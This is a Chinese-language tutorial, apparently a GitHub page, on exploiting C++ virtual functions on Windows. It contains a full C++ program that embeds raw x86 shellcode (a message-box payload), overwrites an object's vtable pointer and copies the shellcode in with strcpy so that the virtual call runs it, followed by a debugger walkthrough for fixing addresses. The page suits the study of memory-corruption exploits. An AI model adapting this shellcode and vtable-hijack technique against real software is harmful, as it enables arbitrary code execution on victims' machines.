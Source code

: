# Exploiting virtual function in C++

**Author：wnagzihxain
Mail：tudouboom@163.com**

攻击虚函数是一件很有意思的事
```
#include "windows.h"
#include "iostream.h"
#include <cstdio>

char shellcode[] = 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\xAC\xBA\x40\x00";//set fake virtual function pointer

class Failwest
{
public:
	char buf[200];
	virtual void test(void)
	{
		cout<<"Class Vtable::test()"<<endl;
	}
};

Failwest overflow, *p;

int main(void)
{
	char* p_vtable;
	p_vtable = overflow.buf - 4;//point to virtual table
	printf("%p %p\n", overflow.buf, overflow.buf - 4);
	//__asm int 3
	p_vtable[0] = 0x5C;
	p_vtable[1] = 0xBB;
	p_vtable[2] = 0x40;
	p_vtable[3] = 0x00;
	strcpy(overflow.buf, shellcode);//set fake virtual function pointer
	//__asm int 3
	p = &overflow;
	p->test();
	return 0;
}
```

当我拿到代码的时候，并不是急着去运行然后弹窗，因为很明显的有一种潜意识，跳转什么的地址肯定是需要自己重新确定的，所以我们来观察一下代码，可以看到手动修改了虚表的指针，那我们就把存放虚表指针的地址输出来

![](Image/1.png)

是不是觉得好机智，好了既然输出了存放虚表指针的地址，那我们就去看看

![](Image/2.png)

虚表指针是`0x004080C8`，后面就是buf的空间了

那我们现在修改一下代码，看看shellcode覆盖到哪里过

![](Image/3.png)

这样赋值完就可以断下来直接观察内存了

![](Image/4.png)

可以看到最后是`0x0040BB5C`，所以我们需要修改虚表指针指向这个地址，不是这个地址的值！！！！！！

然后我们需要修改这个地址的值为`0x0040BAAC`，这是shellcode在内存的起始位置，所以弄好后是这样的

![](Image/5.png)

世界就是这么美好

解释一下流程，我们手动修改虚表指针直接指向shellcode的某处，然后某处存的值是shellcode的起始地址，这就模仿了先取虚表指针，然后再去虚表指针所指向的内存单元取虚函数指针的流程一样